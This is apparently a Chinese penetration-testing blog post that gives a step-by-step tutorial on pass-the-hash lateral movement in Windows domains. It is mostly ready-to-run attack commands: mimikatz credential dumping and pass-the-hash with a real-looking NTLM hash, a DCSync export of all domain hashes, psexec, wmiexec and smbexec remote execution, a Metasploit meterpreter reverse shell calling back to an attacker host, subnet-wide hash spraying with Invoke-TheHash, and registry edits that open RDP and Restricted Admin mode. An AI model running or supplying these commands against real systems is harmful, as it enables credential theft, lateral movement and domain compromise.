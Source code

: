 ```yaml
---
layout:     post
title:      内网渗透之Hash传递攻击
subtitle:   内网渗透之Hash传递攻击
date:       2021-01-29
author:     木已成舟
header-img: img/post-bg-rwd.jpg
catalog: 	 true
tags:
    - 内网渗透
---
```


## 0x00 PTH原理

PTH即pass-the-hash，原理是攻击者可以直接通过LM Hash和NTLM Hash访问远程主机或服务，而不需要提供明文密码。在Windows系统中，通常会使用NTLM身份认证，NTLM是口令加密后的hash值。PTH是基于smb服务（445端口）。

利用场景：内网环境中存在大量密码一样的主机，当我们获得了一台的hash后，可以通过该hash进行横向渗透。



## 0x01 工具

### 通过mimikatz进行PTH

要抓取hash，需要先提权到本地管理权限，不然会报以下错误。

![20210129103322](../../../../img/20210129103322.png)

mimikatz（使用管理员权限打开）抓取明文密码和hash命令：

```
#交互式
privilege::debug
sekurlsa::logonpasswords
#非交互式
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" > pssword.txt
```

下图是抓取到的域管理员的明文密码和hash。

![20210129103511](../../../../img/20210129103511.png)

使用mimikatz进行PTH攻击命令：

```
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:administrator /domain:SHQAX /ntlm:161cff084477fe596a5db81874498a24"
```

下图是命令执行成功的效果图。

![20210129103821](../../../../img/20210129103821.png)

同时它会打开一个新的CMD窗口，该窗口有访问域控的权限。

![20210129103944](../../../../img/20210129103944.png)



#### 导出域内hash

当你通过Mimikatz进行PTH后，在Mimikatz创建的新窗口中执行以下命令可以导出域内所有hash。

```
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:shqax.com /all /csv"
```



#### 使用psexec执行命令

当你通过Mimikatz进行PTH后，在Mimikatz创建的新窗口中执行以下命令可以执行远程命令。

`PsExec.exe \\10.10.1.128 -s cmd.exe`

![20210129104332](../../../../img/20210129104332.png)



### 使用impacket进行PTH

impacket工具集下载：https://github.com/maaaaz/impacket-examples-windows

使用impacket工具集中的wmiexec执行系统命令：

```
wmiexec.exe -hashes :161cff084477fe596a5db81874498a24 shqax/administrator@10.10.1.128 "ipconfig"
```

![20210129104557](../../../../img/20210129104557.png)

使用impacket工具集中smbexec进行反弹shell：

```
smbexec.exe -hashes :161cff084477fe596a5db81874498a24 shqax/administrator@10.10.1.128
```

![20210129104637](../../../../img/20210129104637.png)



### 使用CS进行PTH

使用CS里的mimikatz先dump下密码和hash。

![20210129104758](../../../../img/20210129104758.png)

在凭证中可以看到。

![20210129104826](../../../../img/20210129104826.png)

对内网进行探测后，选择一台主机，进行PTH，此时需要选择一个smb协议的Listener。

![20210129104905](../../../../img/20210129104905.png)

回连成功。

![20210129104939](../../../../img/20210129104939.png)

### 使用MSF进行PTH

选择Msf的`auxiliary/admin/smb/psexec_command`模块：

```
use auxiliary/admin/smb/psexec_command
set rhosts 10.10.1.128
set smbdomain shqax
set smbuser administrator
set smbpass <LM:NTLM>
set command ipconfig
run
```

一开始set sbmpass只设置了NTLM hash，导致下图的登陆失败。

![20210129105337](../../../../img/20210129105337.png)

![20210129105440](../../../../img/20210129105440.png)



msf反弹shell模块：

```
use exploit/windows/smb/psexec_psh
set rhost 10.10.1.128
set smbdomain shqax
set smbuser administrator
set smbpass <LM:NTLM>
set payload windows/x64/meterpreter/reverse_tcp
set lhost 10.10.1.131
set lport 4444
exploit -j -z
```



![20210129105547](../../../../img/20210129105547.png)



### 通过powershell进行批量PTH

powershell脚本：https://github.com/Kevin-Robertson/Invoke-TheHash

```
#本地加载powershell脚本：
powershell -exec bypass
Import-Module .\Invoke-WMIExec.ps1
Import-Module .\Invoke-TheHash.ps1

#利用已有管理员hash，批量指定网段机器(域环境下)
Invoke-TheHash -Type WMIExec -Target 10.10.1.0/24 -Domain shqax -Username administrator -Hash 161cff084477fe596a5db81874498a24

#利用已有管理员hash，批量指定网段机器(工作组环境下)
Invoke-TheHash -Type WMIExec -Target 10.10.1.0/24 -Username administrator -Hash 161cff084477fe596a5db81874498a24
```

![20210129105647](../../../../img/20210129105647.png)





## 0x02 Remote Desktop

Restricted Admin mode，直译为受限管理模式，它使用当前Windows登录凭据，不需要输入口令，直接登录。当然需要两端都支持Restricted Admin mode，即Server需要开启Restricted Admin mode，Client也需要支持Restricted Admin mode。

Restricted Admin mode适用于：

- Windows 8.1和Windows Server 2012 R2默认支持该功能
- Windows 7和Windows Server 2008 R2默认不支持，需要安装补丁2871997、2973351



查看远程桌面是否打开（0表示开启，1表示关闭）：

```
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
```

注册表开启3389端口：

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

查看3389端口号：

```
REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber


```



开启Restricted Admin mode的方法

1. 方法1: 安装补丁3126593
2. 修改注册表（测试没成功）

```
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
```

测试的时候，发现只能用交互模式。

```
privilege::debug
sekurlsa::pth /user:administrator /domain:SHQAX /ntlm:161cff084477fe596a5db81874498a24 "/run:mstsc.exe /restrictedadmin"
```

查看是否支持Restricted Admin mode的命令。

`mstsc.exe /restrictedadmin`

下图是本地不支持Restricted Admin mode的提示：

![20210129110432](../../../../img/20210129110432.png)



下图是远程桌面不支持Restricted Admin mode的提示：

![20210129110459](../../../../img/20210129110459.png)



## 0x03 参考链接

https://blog.csdn.net/lhh134/article/details/104475026

